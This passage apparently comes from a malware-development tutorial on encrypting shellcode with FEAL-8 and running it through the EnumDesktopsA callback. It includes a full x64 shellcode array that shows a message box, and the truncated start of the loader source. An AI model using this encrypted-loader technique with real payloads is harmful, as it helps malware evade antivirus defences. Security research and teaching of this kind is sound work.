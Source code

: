 ```cpp
```

First function is responsible for encrypting the provided shellcode (`meow-meow` messagebox in our case) using `FEAL-8` encryption. It processes the shellcode in `64-bit` blocks (`8-bytes`), and if there are any remaining bytes that do not fit into a full block, it pads them with `0x90` (`NOP`) before encrypting.     

Finally, `main` function demonstrates encrypting, decrypting, and executing shellcode using `FEAL-8`.    

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

and the decrypted payload is executed using the `EnumDesktopsA` function.

The full source code is looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}
```
